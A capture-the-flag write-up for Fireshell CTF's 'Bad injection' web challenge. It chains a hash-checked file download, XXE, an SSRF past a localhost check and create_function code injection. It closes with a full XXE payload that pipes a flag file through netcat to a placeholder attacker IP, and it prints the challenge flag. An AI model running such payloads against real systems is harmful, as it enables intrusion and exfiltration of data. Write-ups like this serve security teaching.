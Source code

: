 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Enumerating the challenge 

![index](https://i.imgur.com/vtZ1BiQ.png)

looking at the first 3 pages available **home**, **about** and **contact**, nothing useful is presented to us. But, by accessing the **List** page, we got the icon of an "image
corrupted" next to the loaded image.

By analyzing the source of this page, it is possible to see a passage of parameters:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```  
this is the "corrupted image". With these parameters, we can read any file on the server. The requirements are:

* the file path is accurate
* the **hash** parameter must contain the md5 of the searched file.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)  
## Exploration  
By scanning the server, we can find the file **Routes.php** inside **/app/** directory, where some http request is required.  
    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...  
and the **Custom.php** file in **/app/Controllers/** .  
    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>  
using XXE, we can also return files from the server.  
![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass  
on the **Routes.php** file above mentioned, you can also see the following code:  
```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```  
This code verifies if that the request comes from the localhost within a conditional structure. If it does, then call Admin::sort.  
Looking at the **Admin.php** file (also downloaded enum the server), we can see that Admin::sort contains:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));  
which gives us an obvious code injection.  
---
that way, we need to use the XXE to bypass the verification of localhost and then make a request to /Admin, which returns us the remote code execution.

the payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://YOUR_IP/file.xml&order=link.file_get_contents('http://YOUR_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'YOUR_IP'.chr(32).'YOUR_PORT'))">
    ]>
    <root><name>&xxe;</name></root>

* the **file.xml** file must be uploaded to your server, with a valid rss with the route and adminsort for request.  
the output:  
![flag](https://i.imgur.com/FyBD4eq.png)  
**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**  
---

* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)
